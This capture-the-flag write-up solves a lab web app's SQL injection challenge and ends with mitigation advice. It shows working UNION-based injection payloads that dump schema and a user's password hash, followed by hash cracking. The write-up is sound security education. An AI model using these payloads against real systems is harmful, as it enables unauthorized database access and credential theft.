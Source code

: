 # SQL INJECTION

## IDENTIFY THE VULNERABILITY

The member page, accessible at http://192.168.56.2/index.php?page=member, allows users to search for members by ID, providing access to valuable database information. During our investigation, we discovered the 5th member named "Get The Flag," which led us to investigate potential SQL injection vulnerabilities.

Format of SQL query:

```sql
SELECT column_name FROM table_name WHERE condition ORDER BY column_name
```

## EXPLOIT THE VULNERABILITY

Executing the simple query **1 OR 1=1** displayed a list of all users. To explore further, we used the following query to reveal details about tables and columns in the database.

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Focusing on the "users" keyword, we identified eight categories within the users table, which include 'user_id', 'first_name', 'last_name', 'town', 'country', 'planet', 'Commentaire' and 'countersign'.

The users table looks like this :

| ID  | First name | Surname     |
| --- | ---------- | ----------- |
| 1   | users      | user_id     |
| 2   | users      | first_name  |
| 3   | users      | last_name   |
| 4   | users      | town        |
| 5   | users      | country     |
| 6   | users      | planet      |
| 7   | users      | Commentaire |
| 8   | users      | countersign |

After several attempts, we used the query :

```sql
1 UNION SELECT countersign, Commentaire FROM users WHERE user_id=5
```

which provided the following information:

> First name: 5ff9d0165b4f92b14994e5c685cdce28

> Surname: Decrypt this password -> then lower all the characters. Apply SHA256, and it's good!

Using Crackstation, we deciphered the password "FortyTwo" (MD5 hash) and then hashed it with SHA256 to obtain the flag.

## INFORMATION ON SQL INJECTION

SQL injection is a malicious technique that enables an attacker to manipulate or interfere with the SQL queries executed by an application to its associated database. This vulnerability can have severe consequences, **_granting unauthorized access to, and control over, the database_**. An attacker exploiting SQL injection may gain the ability to **_read, modify, or delete sensitive data stored in the database_**. This could potentially include compromising users' personal information, accessing email addresses, and obtaining passwords. The impact of SQL injection extends beyond mere unauthorized data access, as it poses a substantial threat to the confidentiality, integrity, and availability of the entire database.

## PATCH THE VULNERABILITY

To reduce the risks associated with SQL injection attacks, consider implementing the following security measures:

1. Input Validation and Parameterized Statements:

- Validate and sanitize all user inputs on the server side.
- Use parameterized statements (prepared statements) in SQL queries to separate user input from SQL code.

2. Stored Procedures:
   Utilize stored procedures to encapsulate and execute SQL queries. This adds an additional layer of security by limiting direct access to the database.

3. Least Privilege Principle:
   Ensure that database accounts used by your application have the least privilege necessary to perform their tasks. Avoid using accounts with unnecessary permissions.

4. Whitelisting:
   Implement input whitelisting, allowing only predefined, safe characters or patterns. This helps prevent the injection of malicious SQL code.

5. ORMs and Parameterized Queries:
   If using Object-Relational Mapping (ORM) frameworks, make sure they generate parameterized queries to prevent SQL injection vulnerabilities.

6. Error Handling:
   Implement proper error handling to avoid exposing sensitive information in error messages. Provide generic error messages to users and log detailed errors for administrators.

7. Web Application Firewalls (WAFs):
   Use Web Application Firewalls to filter and monitor HTTP traffic between a web application and the Internet. WAFs can help detect and prevent SQL injection attacks.

## SOURCES

https://portswigger.net/web-security/sql-injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
